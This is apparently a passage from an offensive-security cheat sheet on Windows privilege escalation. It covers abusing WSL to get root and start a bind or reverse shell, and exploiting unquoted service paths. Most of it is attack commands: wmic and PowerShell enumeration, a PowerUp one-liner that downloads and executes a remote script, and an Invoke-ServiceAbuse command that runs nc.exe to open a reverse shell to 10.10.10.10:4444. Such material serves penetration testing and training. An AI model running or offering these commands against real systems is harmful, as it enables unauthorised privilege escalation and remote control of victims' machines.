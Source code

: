 ## EoP - Windows Subsystem for Linux (WSL)

Technique borrowed from
[Warlockobama's tweet](https://twitter.com/Warlockobama/status/1067890915753132032)

> With root privileges Windows Subsystem for Linux (WSL) allows users to create
> a bind shell on any port (no elevation needed). Don't know the root password?
> No problem just set the default user to root W/ <distro>.exe --default-user
> root. Now start your bind shell or reverse.

```powershell
wsl whoami
./ubuntun1604.exe config --default-user root
wsl whoami
wsl python -c 'BIND_OR_REVERSE_SHELL_PYTHON_CODE'
```

Binary `bash.exe` can also be found in
`C:\Windows\WinSxS\amd64_microsoft-windows-lxssbash_[...]\bash.exe`

Alternatively you can explore the `WSL` filesystem in the folder
`C:\Users\%USERNAME%\AppData\Local\Packages\CanonicalGroupLimited.UbuntuonWindows_79rhkp1fndgsc\LocalState\rootfs\`

## EoP - Unquoted Service Paths

The Microsoft Windows Unquoted Service Path Enumeration Vulnerability. All
Windows services have a Path to its executable. If that path is unquoted and
contains whitespace or other separators, then the service will attempt to access
a resource in the parent path first.

```powershell
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """

wmic service get name,displayname,startmode,pathname | findstr /i /v "C:\Windows\\" |findstr /i /v """

gwmi -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.StartMode -eq "Auto" -and $_.PathName -notlike "C:\Windows*" -and $_.PathName -notlike '"*'} | select PathName,DisplayName,Name
```

- Metasploit exploit : `exploit/windows/local/trusted_service_path`
- PowerUp exploit

  ```powershell
  # find the vulnerable application
  C:\> powershell.exe -nop -exec bypass "IEX (New-Object Net.WebClient).DownloadString('https://your-site.com/PowerUp.ps1'); Invoke-AllChecks"

  ...
  [*] Checking for unquoted service paths...
  ServiceName   : BBSvc
  Path          : C:\Program Files\Microsoft\Bing Bar\7.1\BBSvc.exe
  StartName     : LocalSystem
  AbuseFunction : Write-ServiceBinary -ServiceName 'BBSvc' -Path <HijackPath>
  ...

  # automatic exploit
  Invoke-ServiceAbuse -Name [SERVICE_NAME] -Command "..\..\Users\Public\nc.exe 10.10.10.10 4444 -e cmd.exe"
  ```
